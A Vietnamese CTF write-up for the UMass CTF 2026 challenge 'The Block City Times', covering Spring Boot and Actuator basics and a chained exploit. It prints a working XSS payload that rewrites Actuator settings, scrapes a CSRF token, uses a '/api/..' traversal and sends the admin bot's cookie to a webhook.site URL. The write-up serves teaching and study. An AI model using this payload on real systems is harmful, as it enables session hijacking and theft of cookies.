






# The Block City Times (UMass CTF 2026)
---

## I. Overview
Hệ thống là một ứng dụng web (được viết bằng Spring Boot) cung cấp nền tảng đọc tin tức và cho phép người dùng nộp các bài viết (submit stories) dưới dạng tệp đính kèm. Hệ thống bao gồm 3 thành phần chính chạy trong các Docker container:

- **app**: Máy chủ Spring Boot chính.

- **editorial**: Bot duyệt bài (Node.js/Puppeteer). Sau khi người dùng upload tệp, bot này sẽ tự động đăng nhập và truy cập vào URL của tệp.

- **report-runner**: Bot báo cáo lỗi (Node.js/Puppeteer). Bot này giữ Flag trong Cookie, nhưng chỉ có thể được kích hoạt thông qua endpoint **/admin/report** (yêu cầu cấu hình hệ thống đang ở chế độ dev).

Mục tiêu là thông qua tệp upload độc hại, khai thác lỗ hổng XSS kết hợp với lỗi cấu hình Actuator để chuyển hệ thống sang chế độ dev, từ đó kích hoạt bot report-runner và đánh cắp Flag.

## II. Essential Knowledge
> Có thể skip xuống dưới đọc lời giải cũng được, đoạn nào không hiểu quay lại đây đọc sau.
### A. Các thành phần cấu hình cơ bản (Services Configuration) và Kiến trúc mạng ảo (Network Topology)

- `services` (Dịch vụ): Đây là khối khai báo danh sách các ứng dụng hoặc thành phần hệ thống sẽ được khởi tạo. Mỗi service đại diện cho một container độc lập (ví dụ: máy chủ web, cơ sở dữ liệu, bộ nhớ đệm).
    - `build` / `image`: Định nghĩa nguồn để tạo ra container. `build` chỉ định đường dẫn chứa mã nguồn và `Dockerfile` để hệ thống tự đóng gói, trong khi `image` dùng để kéo (pull) một tệp ảnh đã được tạo sẵn từ các kho lưu trữ (như Docker Hub).
    - `ports` (Ánh xạ cổng): Cầu nối giao tiếp giữa máy chủ vật lý (Host) và máy ảo (Container). Nó tuân theo cú pháp `Cổng_Host:Cổng_Container`. Chỉ những cổng được khai báo ở đây mới cho phép người dùng từ bên ngoài Internet hoặc mạng nội bộ của Host truy cập trực tiếp vào dịch vụ bên trong container.
    - `environment` (Biến môi trường): Nơi truyền các tham số cấu hình động vào bên trong hệ điều hành của container. Đây thường là nơi chứa các dữ liệu nhạy cảm (như mật khẩu, API keys) hoặc các cờ cấu hình hệ thống.
    - `depends_on`: Quy định thứ tự khởi động. Ví dụ thằng app có **depends_on: - editorial**, tức là Docker sẽ đợi mồi thằng **editorial** lên chạy hẳn hoi rồi mới bắt đầu bật thằng **app** lên. Tránh trường hợp **app** lên trước nhưng gọi sang **editorial** lại bị lỗi Connection Refused.

- `networks`:Docker cung cấp khả năng tạo ra các vùng mạng ảo (Virtual Networks) để quản lý cách các container giao tiếp với nhau và với thế giới bên ngoài.

    - **Vùng mạng (Networks)**: Việc khai báo `networks` giúp nhóm các container lại với nhau. Hai container nằm ở hai network khác nhau sẽ không thể nhìn thấy hoặc gửi dữ liệu trực tiếp cho nhau, tạo ra một ranh giới bảo mật vững chắc.
    - `driver: bridge`: Chế độ mạng cơ bản nhất, tạo ra một cầu nối mạng riêng để các container giao tiếp với nhau trong cùng một cụm.
    - **Định tuyến nội bộ (DNS / Aliases)**: Trong cùng một mạng ảo, Docker cung cấp tính năng phân giải tên miền (DNS) nội bộ tự động. Nghĩa là, các container có thể giao tiếp với nhau bằng tên định danh (ví dụ: gọi tới `http://app-server:8080`) thay vì phải sử dụng địa chỉ IP tĩnh (thứ luôn thay đổi mỗi khi khởi động lại container).
    - **Mạng cô lập (Internal Network)**: Khi một mạng được gắn thuộc tính `internal: true`, nó trở thành một vùng mạng hoàn toàn **biệt lập** ở mức mạng ảo. Các container nằm trong vùng này:

        - Có thể giao tiếp tự do với nhau
        - **Không thể** truy cập ra ngoài Internet.
        - **Không thể** bị truy cập từ Internet hay từ các container thuộc mạng khác.
        - *Lưu ý bảo mật*: Kiến trúc này thường được dùng để bảo vệ các dịch vụ nhạy cảm (như cơ sở dữ liệu nội bộ hoặc các bot tự động), **buộc kẻ tấn công phải chiếm quyền điều khiển một container làm cầu nối** (nằm ở cả mạng public và internal) nếu muốn tấn công sâu hơn vào hệ thống.

### B. Fundametal of Spring Boot

#### 1. Inversion of Control (IoC) và Dependency Injection (DI)

Đây là triết lí cốt lõi của toàn bộ hệ sinh thái Spring

**IoC (Đảo ngược điều khiển)**: Trong lập trình hướng đối tượng truyền thống, lập trình viên phải chủ động kiểm soát việc tạo và quản lý vòng đời của đối tượng (sử dụng từ khóa `new`). Với IoC, quyền kiểm soát này được chuyển giao (đảo ngược) cho framework. Spring sẽ tạo ra một vùng chứa (IoC Container) để quản lý các đối tượng này.

**DI (Tiêm phụ thuộc)**: Là cách thức thực hiện IoC. Khi một đối tượng (Class A) cần sử dụng một đối tượng khác (Class B) để hoạt động, thay vì Class A tự tạo ra Class B, Spring Container sẽ "tiêm" (inject) Class B vào Class A thông qua Constructor (hàm khởi tạo), Setter, hoặc Field. Điều này giúp giảm sự phụ thuộc chặt chẽ (loose coupling) giữa các thành phần, dễ dàng bảo trì và viết test (kiểm thử).
@Controller: Đánh dấu đây là class chuyên nhận HTTP Request và sẽ trả về một giao diện (View - ở bài này là các file .html qua Thymeleaf).

#### 2. Spring Bean và Các Annotations Cốt Lõi
**Bean** là danh từ chỉ các đối tượng được khởi tạo, lắp ráp và quản lý bởi Spring IoC Container. Lập trình viên sử dụng các Annotations (cú pháp có dấu `@`) để báo cho Spring biết cách quản lý chúng.

Các Annotation tự động đăng ký Bean:

- `@Component`: Đánh dấu một lớp là một thành phần chung của Spring.

- `@Service`: Đánh dấu các lớp chứa logic nghiệp vụ (Business Logic).

- `@Repository`: Đánh dấu các lớp làm việc trực tiếp với cơ sở dữ liệu.

- `@Controller / @RestController`: Đánh dấu các lớp tiếp nhận và xử lý HTTP Request từ người dùng.

    - **@Controller**: Đánh dấu đây là class chuyên nhận HTTP Request và sẽ trả về một giao diện (View - ở bài này là các file `.html` qua Thymeleaf).

    - **@RestController**: Cũng nhận HTTP Request, nhưng thay vì trả về giao diện HTML, nó trả về thẳng dữ liệu thô (thường là JSON). Các file trong thư mục `api/` đều dùng cái này.

**@Bean** và **@Configuration**: Thay vì để Spring tự quét, lập trình viên có thể tạo một lớp *@Configuration* và dùng *@Bean* trên các phương thức để cấu hình thủ công cách một đối tượng được tạo ra và đưa vào Container.

- `@Autowired`: Dùng để yêu cầu Spring tự động tiêm một Bean vào một vị trí cần thiết. Tuy nhiên, trong các phiên bản Spring hiện đại, việc tiêm qua Constructor được khuyến khích và tự động thực hiện mà không cần viết rõ @Autowired.

- `@GetMapping / @PostMapping`: Gắn lên các hàm (method) để quy định đường dẫn (Route) và phương thức HTTP. Ví dụ: **@GetMapping("/")** nghĩa là khi user truy cập trang chủ, hàm bên dưới sẽ được gọi.

- `@ConfigurationProperties`: Đây là một tính năng giúp ánh xạ (binding) các file cấu hình bên ngoài (như application.yml hoặc application.properties) vào các đối tượng Java một cách có cấu trúc.

Thay vì dùng **@Value** để lấy từng biến cấu hình đơn lẻ, **@ConfigurationProperties(prefix="tên-tiền-tố")** cho phép gom nhóm các cấu hình liên quan vào một Class duy nhất.

Điều này giúp việc quản lý cấu hình tập trung hơn, hỗ trợ kiểm tra kiểu dữ liệu (type-safe) và tự động gợi ý (auto-completion) trong các công cụ soạn thảo mã (IDE).

- `@RefreshScope`: Khi có tag này, nếu có ai đó gọi request POST vào endpoint `/actuator/refresh`, Spring sẽ ném cái Bean AppProperties cũ đi, đọc lại các tham số cấu hình mới nhất và tạo lại object mới.

#### 3. Spring Boot Actuator

**Actuator** là một module cung cấp các tính năng giám sát và quản lý ứng dụng (production-ready features) mà không cần phải tự viết code.

**Chức năng chính**: Khi được tích hợp, **Actuator** sẽ tự động tạo ra một loạt các API (thường nằm ở đường dẫn `/actuator/...`) để kiểm tra trạng thái máy chủ.

Các Endpoint tiêu biểu:

- `/health`: Trả về trạng thái của ứng dụng (đang hoạt động tốt hay có lỗi kết nối database, redis...).

- `/metrics`: Cung cấp các thông số chi tiết về mức tiêu thụ RAM, CPU, số lượng request HTTP.

- `/env`: Hiển thị toàn bộ các biến môi trường và cấu hình hệ thống đang được nạp.

**Khía cạnh bảo mật**: Actuator cung cấp rất nhiều thông tin nhạy cảm. Do đó, trong thực tế, các endpoint này phải được giới hạn quyền truy cập chặt chẽ thông qua Spring Security, tránh để lộ thông tin cấu hình ra Internet.

#### 4. Spring Security và Chuỗi bộ lọc (SecurityFilterChain)

Spring Security là module đảm nhiệm việc xác thực (Authentication - Người dùng là ai?) và phân quyền (Authorization - Người dùng được làm gì?).

- **SecurityFilterChain**: Hoạt động như một chốt chặn. Mọi HTTP request trước khi chạm đến các Controller đều phải đi qua một chuỗi các bộ lọc (filters) do lớp này định nghĩa. Tại đây, hệ thống sẽ kiểm tra xem đường dẫn có yêu cầu đăng nhập không, người dùng có đủ Role/Quyền hạn không.

- **Bảo vệ CSRF (Cross-Site Request Forgery)**: Mặc định, Spring Security bật khiên bảo vệ CSRF. Nó yêu cầu một mã thông báo ngẫu nhiên (CSRF Token) cho mọi yêu cầu làm thay đổi trạng thái hệ thống (`POST`, `PUT`, `DELETE`). Nếu yêu cầu từ client không đính kèm token này (hoặc token không khớp), request sẽ bị chặn lại với lỗi `403 Forbidden`. Điều này ngăn chặn các cuộc tấn công mượn quyền người dùng từ các trang web giả mạo.

## III. Source code analysis

```
app
.
├── / [GET]
├── /article/{id} [GET, POST]    
├── /login [GET, POST]                      POST: username, password
├── /logout [GET]                           
├── /submit [GET, POST]                     POST: title, author, description, file  
├── /files/{filename} [GET]         admin only
│
├── /api
│    ├── /articles [GET]
│    ├── /articles/{id} [GET]
│    ├── /config [GET]              admin only
│    ├── /metrics [GET]
│    │   └── /view/{id} [POST]               
│    └── /tags [GET]
│        └── /article/{id} [GET, PUT]       PUT: tags
│
└── /admin [GET]
    ├── /metrics [GET]
    ├── /switch [POST]                      POST: config
    └── /report [GET, POST]                 POST: endpoint
```

Đọc file **Dockerfile**, thấy có 3 service được chạy cùng lúc và phụ thuộc vào nhau:
- `app`: phần web được expose port 8080, biến môi trường là tài khoản, mật khẩu và `APP_OUTBOUND_EDITORIAL_URL: "http://editorial:9000/submissions"`. Nằm trong 2 network: 1 là **web** (internet) và một internal network **editorial-net** (biệt danh trong mạng này là **app.internal**).
- `editorial`: một dịch vụ bot chạy ở port 9000. Biến môi trường là `APP_BASE_URL: "http://app.internal:8080"` và tk, mk admin. Chỉ nằm trong mạng internal network `editorial-net`.
- `report-runner`: một dịch vụ bot khác chạy ở port 9001. Biến môi trường là `BASE_URL: "http://app.internal:8080"` và `FLAG` kèm theo tk, mk admin. Nằm trong mạng **web** và cả **editorial-net**

Đọc file **application.yml** ở resources:



Phần endpoints mình sẽ đi qua các file quan trọng, các endpoints không quan trọng mọi người có thể nhìn ở cây phả hệ ở trên.

- `StoryController.java - POST /submit`: nhận file được submit, lấy biến môi trường **allow-types** ra để kiểm tra là txt hoặc pdf. Sau đó viết file vào hệ thống với tên ngẫu nhiên, gửi file đó tới editorial service thông qua URL được cài ở biến hệ thống: `http://localhost:9000/submissions`


- `Editorial service - server.js - POST /submissions`: nhận thông tin từ request ở trên, tạo một URL tới file vừa được submit ở `app`, mở browser đăng nhập với tài khoản admin và truy cập vào URL vừa tạo.


- `StoryController.java - GET /file/{filename}`:


- `AppProperties.java, OutboundProperties.java`: Config các biến môi trường và thêm hàm để cho phép chỉnh sửa, update sau này



- `ReportController.java - POST /admin/report`: nhận POST request với nội dung là endpoint, kiểm tra điều kiện cần thiết trước khi gửi request chứa **endpoint** tới một con bot report


- `report-runner service`: Con bot này sẽ nhận `endpoint` được gửi từ `/admin/report` và mở browser truy cập vào endpoint đó với account admin để review


- `SecurityConfig.java`: cài đặt các quy định cho `actuator` và endpoint bình thường của user/admin


## IV. Vulnerability Analysis

1. **Stored XSS qua File Upload**: Tệp `.html` được tải lên không qua các bước mã hóa thực thi nội dung. Server kiểm tra `Content-Type` dựa vào `Content-Type` của request (tin user) mà không thực sự kiểm tra nội dung của file được upload. Khi truy cập trực tiếp tại `/files/{filename}`, trình duyệt tự động render tệp `.html` thành trang HTML, dẫn đến thực thi JavaScript phía máy khách (Client-side RCE/XSS) với phiên đăng nhập của Admin.

2. **Lỗi cấu hình Actuator**: Endpoint `/actuator/env` cho phép ghi đè cấu hình ứng dụng bằng HTTP POST. Do `SecurityConfig.java` tắt CSRF cho Actuator, mã XSS có thể gửi request độc hại mà không bị ngăn chặn.

3. **Chain tấn công State Modification**: Kẻ tấn công có thể thay đổi biến môi trường từ `prod` sang `dev`, sau đó gọi `/actuator/refresh` để áp dụng ngay lập tức.

4. **CSRF Token Disclosure**: Mặc dù `/admin/report` yêu cầu token CSRF, kịch bản XSS chạy dưới quyền Admin có thể tải trước trang `/admin`, bóc tách chuỗi token bằng Regex, và gắn vào yêu cầu POST tiếp theo.

## V. Exploitation

### A. Luồng khai thác (Attack Flow)

Quá trình khai thác được thực thi bởi một tệp HTML giả danh `.txt` tải lên qua form Submit. Bot `editorial` duyệt tệp này sẽ thực thi chuỗi payload, chuyển hệ thống sang chế độ `dev` và gọi bot `report-runner`. Sau đó, bot `report-runner` lại truy cập vào chính tệp `.txt` này, thực thi phần code lấy `Flag`.

### B. Payload
Nội dung payload được thiết kế trong file [`payload.txt`](assets/payload.txt)

```html
<html>
<body>
  <script>
    (async function() {
      try {
        // 1. Lấy endpoint là pathname của URL hiện tại
        const currentEndpoint = window.location.pathname;

        if (document.cookie.includes('FLAG')) {
            // 2. Chỉ gửi cookie ra Webhook và thoát, không làm gì thêm!
            fetch('https://webhook.site/157a670e-83ac-4bfe-a607-1f6cca30f938/?flag=' + document.cookie);
            return; 
        }

        // 3. Gửi 2 POST request sửa env
        await fetch('/actuator/env', {
          method: 'POST',
          headers: { 'Content-Type': 'application/json' },
          body: JSON.stringify({ "name": "app.enforce-production", "value": "false" })
        });

        await fetch('/actuator/env', {
          method: 'POST',
          headers: { 'Content-Type': 'application/json' },
          body: JSON.stringify({ "name": "app.active-config", "value": "dev" })
        });

        // 4. Gửi POST request refresh lại cấu hình
        await fetch('/actuator/refresh', {
          method: 'POST',
          headers: { 'Content-Type': 'application/json' }
        });

        // 5. Fetch trang /admin và dùng Regex để lấy CSRF token
        const adminRes = await fetch('/admin');
        const adminHtml = await adminRes.text();
        
        const csrfMatch = adminHtml.match(/name="_csrf" value="(.*?)"/);
        
        if (csrfMatch && csrfMatch[1]) {
          const csrfToken = csrfMatch[1];
          const bypassEndpoint = '/api/..' +currentEndpoint
          // 6. Gửi POST request tới /admin/report kèm CSRF token và endpoint
          await fetch('/admin/report', {
            method: 'POST',
            headers: { 'Content-Type': 'application/x-www-form-urlencoded' },
            body: 'endpoint=' + encodeURIComponent(bypassEndpoint) + '&_csrf=' + encodeURIComponent(csrfToken)
          });
        }
      } catch (err) {
        console.error("Lỗi kịch bản XSS: ", err);
      }
    })();
  </script>
</body>
</html>
```

### C. Cơ chế hoạt động chi tiết của Payload:

1. Khi nộp bài, tệp `payload.txt` được tải lên hệ thống. Dùng burp để bắt request, sửa tên file thành `payload.html`, bypass client-side code. 


Server thấy `Content-Type: text/plain` nằm trong `allowd-types` nên cho qua và ghi file vào hệ thống. **StoryController** gọi bot **editorial** truy cập tệp này.

2. Trình duyệt của **editorial** (với tư cách Admin) chạy mã script trên. 

**Nguyên nhân trình duyệt chạy code**: Mặc dù Spring Boot cài response luôn có header `X-Content-Type-Options: nosniff` để khi broswer gặp response, nó không nhòm vào nội dung mà đoán kiểu để render tương ứng, nó chỉ tin vào `Content-Type`. Nếu không có `nosniff`, khi thấy file trả về là text nhưng có tag `<html>` hay `<script>`, browser sẽ tự động render. Nếu có thì nó chỉ coi là text bình thường. Tuy nhiên, ở đây server trước khi trả về file khi được request, nó lại kiểm tra nội dung file để lấy `Content-Type` rồi trả về cho client

```java
Resource resource = new FileSystemResource(filePath);
    if (!resource.exists()) {
        return ResponseEntity.notFound().build();
    }

    String contentType = Files.probeContentType(filePath);
    if (contentType == null) contentType = "application/octet-stream";

    return ResponseEntity.ok()
            .contentType(MediaType.parseMediaType(contentType))
            .body(resource);
```


Lúc này browser thấy đây là `text/html` nên chạy code => XSS. Tiếp theo, Cookie của nó không có Flag nên nó bỏ qua bước 2.

3. Script dùng API `fetch` gửi chuỗi JSON đến `/actuator/env` (vốn đã bị tắt CSRF). Do gửi chuỗi JSON, trình duyệt có thể tạo ra `Preflight Request (OPTIONS)`, nhưng vì nó cùng Origin (cùng tên miền của chính máy chủ Spring) nên không bị can thiệp bởi chính sách `CORS`.

Script sửa `enforce-production` thành `false` và `active-config` thành `dev`.


4. Cấu hình được tải lại (`/actuator/refresh`), hệ thống thành công chuyển trạng thái `activeConfig = dev`.





5. Script thực hiện kỹ thuật `CSRF-Bypass` bằng việc tải trang `/admin` dưới quyền Admin hiện tại, phân tích cú pháp HTML để lấy token bảo mật.

6. Khi đã có token, script gọi `/admin/report`. Tham số endpoint phải bắt đầu bằng `/api/` (do logic của **ReportController** bắt **endpoint** phải bắt đầu bằng **/api/**), nên payload dùng `/api/../files/{filename}` để giả dạng thỏa mãn điều kiện chuỗi, nhưng thực chất là quay ngược về truy cập lại tệp độc hại hiện tại.

7. Máy chủ Java tiếp nhận yêu cầu, đẩy sang bot `report-runner`. Bot `report-runner` được khởi chạy, được gán Cookie chứa cờ (`FLAG=UMASS{...}`), và lại truy cập vào `UUID-payload.html`.

8. Lần này, khi mã Javascript chạy ở bước 2, `document.cookie.includes('FLAG')` trả về kết quả đúng (**True**). Script sẽ trích xuất Cookie chứa Flag và gửi ra Webhook do kẻ tấn công chuẩn bị sẵn. Hoàn tất quá trình tấn công.




## VI. Discussion

- **Tại sao khi có XSS ở editorial rồi, không gửi thẳng POST request tới `http://report-runner:9001/report` với endpoint, 2 service cùng mạng editorial-net mà?**:
    
Vì **CORS**: [Cross-Origin-Resource-Sharing](https://developer.mozilla.org/en-US/docs/Web/HTTP/Guides/CORS)

Để giải thích ngắn gọn: Trong tài liệu của MDN, họ chia request ra làm 2 loại để quyết định xem có cần gửi request dò đường (OPTIONS) hay không:

- **Simple Requests (Request đơn giản)**: Trình duyệt sẽ gửi thẳng lệnh POST/GET đi, KHÔNG sinh ra Preflight. Tuy nhiên, điều kiện cực kỳ khắt khe:

    - Chỉ được dùng HTTP Method: **GET**, **HEAD**, **POST**.

    - Không được chứa các header lạ, chỉ được dùng vài header mặc định (Accept, Accept-Language...).

    - Quan trọng nhất: **Header Content-Type** CHỈ ĐƯỢC PHÉP mang 1 trong 3 giá trị: **application/x-www-form-urlencoded**, **multipart/form-data**, hoặc **text/plain**.

- **Preflighted Requests (Request phức tạp)**: Chỉ cần request của bro vi phạm 1 trong các điều kiện của Simple Request, nó sẽ bị coi là phức tạp và trình duyệt bắt buộc phải bắn Preflight Request (OPTIONS) trước. Các lý do phổ biến nhất khiến request bị chuyển thành dạng này:

    - Sử dụng `Content-Type: application/json`.

    - Đính kèm thêm các header xác thực như Authorization: `Bearer <token>`.

    - Sử dụng các Method như **PUT**, **DELETE**, **PATCH**.



Và trong code của **developer/trigger-server.js** có `app.use(express.json())`. Nó chỉ có duy nhất bộ phân giải JSON. Nếu gửi request form data thông thường, biến `req.body.endpoint` sẽ bị rỗng (undefined). Do đó, trong `lệnh fetch()`, bắt buộc phải set header `Content-Type: application/json`. Và việc set Header như này lại trigger **Preflight Request**.

**Lưu ý**:`CORS` chỉ áp dụng cho browser, nên khi Java gửi request từ `/admin/report` tới `/report-runner:9001/report` sử dụng `RestClient` thì lại không sao vì **Java RestClient** không phải là trình duyệt, nó không bị ràng buộc bởi các chính sách bảo mật như CORS.

